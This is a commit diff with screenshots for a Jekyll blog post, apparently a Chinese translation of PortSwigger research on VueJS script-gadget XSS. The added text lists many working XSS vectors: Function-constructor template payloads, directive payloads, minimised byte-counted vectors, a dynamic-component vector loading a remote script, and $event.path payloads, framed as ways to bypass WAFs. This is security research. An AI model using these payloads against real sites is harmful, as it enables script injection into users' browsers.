

Before and after one commit to A0er/A0er.github.io, a Jekyll site: the page built from _posts/2020-10-15-使用VueJS脚本gadgets规避防御.md, in a window 1280 px wide and 1400 px high, scrolled down 911 px. Shown: the whole window, without its empty margins (272-1005 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-10-15-使用VueJS脚本gadgets规避防御.md

````diff
--- a/_posts/2020-10-15-使用VueJS脚本gadgets规避防御.md
+++ b/_posts/2020-10-15-使用VueJS脚本gadgets规避防御.md
@@ -29,15 +29,113 @@
 
 
 ## 一切都是从哪里开始的？
-在[推特](https://twitter.com/PortSwiggerRes/status/1265647826383634432?s=20)上讨论各种 VueJS 攻击的时候，我、[Lewis Ardern](https://twitter.com/LewisArdern) 和 [PwnFunction](https://twitter.com/PwnFunction) 决定创建一篇博文来更详细地介绍它们。我们的合作非常有趣，并想出了一些有趣的向量。这一切都始于尝试减少以下[VueJS XSS向量](https://portswigger-labs.net/xss/vuejs2.php?x=%7B%7BtoString().constructor.constructor(%27alert(1)%27)()%7D%7D)。
+
+在[推特](https://twitter.com/PortSwiggerRes/status/1265647826383634432?s=20)上讨论各种 VueJS 攻击的时候，我、[Lewis Ardern](https://twitter.com/LewisArdern) 和 [PwnFunction](https://twitter.com/PwnFunction) 决定创建一篇博文来更详细地介绍它们。我们的合作非常有趣，并想出了一些有趣的向量。这一切都始于尝试缩减以下[VueJS XSS向量](https://portswigger-labs.net/xss/vuejs2.php?x=%7B%7BtoString().constructor.constructor(%27alert(1)%27)()%7D%7D)。
 ```
 {{toString().constructor.constructor('alert(1)')()}}
 ```
------
 
-Poole is the butler for [Jekyll](http://jekyllrb.com), the static site generator. It's designed and developed by [@mdo](https://twitter.com/mdo) to provide a clear and concise foundational setup for any Jekyll site. It does so by furnishing a full vanilla Jekyll install with example layouts, pages, posts, and styles.
+为了找出如何缩减它，我们需要看看我们的向量是如何被转换的。我们查看VueJS源码，搜索Function构造函数的调用。有些情况下，Function构造函数被调用了，但创建的函数却没有。我们跳过了这些实例，因为我们确信这不是我们的代码被转换的地方。[在第11648行，我们最终找到了一个调用生成函数的Function构造函数](https://github.com/vuejs/vue/blob/6fe07ebf5ab3fea1860c59fe7cdd2ec1b760f9b0/src/compiler/to-function.js#L14)。
+```
+return new Function(code)
+```
 
-This demo site was last updated {{ site.time | date: "%B %d, %Y" }}.
+我们在这一行添加了一个断点，并刷新了页面。然后我们检查了代码变量的内容，果然，我们可以看到我们的向量。代码在一个with语句中，后面是一个return语句。因此，执行代码的范围是在with语句中指定的对象内。基本上，这意味着没有全局的alert()函数，但在with范围内，有VueJS函数，如_c、_v和_s。
+
+如果我们使用这些函数，我们就可以减少表达式的大小。这个函数的构造函数将是Function构造函数，它允许我们执行代码。这意味着我们可以将向量减少到。
+```
+{{_c.constructor('alert(1)')()}}
+```
+
+### 调试VueJS
+在我们继续之前，也许应该先快速了解一下我们使用的调试工具。
+
+[Vue Devtools](https://github.com/vuejs/vue-devtools)。官方的浏览器扩展，可以用来调试用VueJS构建的应用。
+
+[Vue-template-compiler](https://www.npmjs.com/package/vue-template-compiler)。将模板编译成渲染函数，这可以帮助我们看到Vue内部如何表示模板。这个工具有一个方便的在线版本，叫做template-explorer。
+
+我们还不时地重写VueJS原型，添加日志等功能，以便我们可以看到内部发生的事情。
+
+## VueJS第2版
+### 指令
+就像其他框架一样，VueJS中的一些指令让我们的生活变得更轻松.几乎每一个VueJS指令都可以作为一个gadgets来利用。让我们来看一个例子。
+
+#### v-show指令
+
+```
+<p v-show="_c.constructor`alert(1)`()">
+```
+这是一段比较简单的代码。有一个叫做v-show的指令，用来根据逻辑条件从DOM中显示或隐藏一个元素。在这种情况下，条件就是向量。
+
+这个非常相同的向量可以应用于其他指令，包括v-for、v-model、v-on等。
+
+#### v-on指令
+```
+<x v-on:click='_b.constructor`alert(1)`()'>click</x>
+```
+
+#### v-bind 指令
+```
+<x v-bind:a='_b.constructor`alert(1)`()'>
+```
+这些gadgets的多样性可以帮助你创建灵活的向量，可以很容易地用于绕过WAFs。
+
+### 最小化向量
+最小化向量--也被称为 "代码高尔夫"--意味着找到用尽可能少的字符或字节达到同样结果的方法。我们最初假设最短的向量是模板表达式，这意味着我们必须使用4个字节来添加所需的大括号{{ }}。然而，这个假设被证明是错误的。
+
+我们花了大量的时间调试、查看源代码和阅读文档。我们找不到任何通过模板缩短矢量的方法，于是我们开始研究标签。
+
+我们从35个字节开始，最终向上爬。但在这个过程中，通过使用VueJS解析器的怪癖，我们发现了一些非常有趣的向量。
+```
+<x @[_b.constructor`alert(1)`()]> (35 bytes)
+<x :[_b.constructor`alert(1)`()]>  (33 bytes)
+<p v-=_c.constructor`alert(1)`()> (33 bytes)
+<x #[_c.constructor`alert(1)`()]> (33 bytes)
+<p :=_c.constructor`alert(1)`()> (32 bytes)
+```
+
+但短的还是模板向量。
+```
+{{_c.constructor('alert(1)')()}}  (32 bytes)
+{{_b.constructor`alert(1)`()}}    (30 bytes)
+```
+在尝试了无数种方法来编写高尔夫代码，只是为了能让它在30个字节以内，我们最终在Vue API中遇到了动态组件。
+
+动态组件本质上是可以在稍后的时间点改变为不同的组件。这是通过使用标签上的is属性实现的。考虑下面的例子。
+```
+<x v-bind:is="'script'" src="//14.rs" />
+```
+
+这可以缩短为：
+```
+<x is=script src=//⑭.₨>
+```
+
+现在只有23个字节了！这是我们在整个研究过程中能想到的VueJS v2最短的向量。这是我们在整个研究过程中能想到的VueJS v2最短的向量。
+
+### 事件
+就像AngularJS一样，VueJS定义了一个名为$event的特殊对象，它引用了浏览器中的事件对象。使用这个$event对象，你可以访问浏览器窗口对象，允许你调用任何你喜欢的东西。
+```
+<img src @error="e=$event.path;e[e.length-1].alert(1)">
+<img src @error="e=$event.path.pop().alert(1)">
+```
+
+我们确定@error会对一个表达式进行评估，因为VueJS提供了速记语法，这使得你可以用@代替使用v-on指令为错误或点击等事件的处理程序打前缀。文档中还透露，你可以使用$event变量来访问原始DOM事件。
+
+这些向量的工作得益于Chrome在事件执行时定义的一个特殊路径属性。这个属性包含一个触发事件的对象数组。对我们来说至关重要的是，窗口对象总是这个数组中的最后一个元素。composedPath()函数会在其他浏览器中生成一个类似的数组，这使得我们可以构建一个跨浏览器向量，如下所示。
+
+
+
+
+
+
+
+
+
+
+
+
+
 
 There are currently two themes built on Poole:
 
````
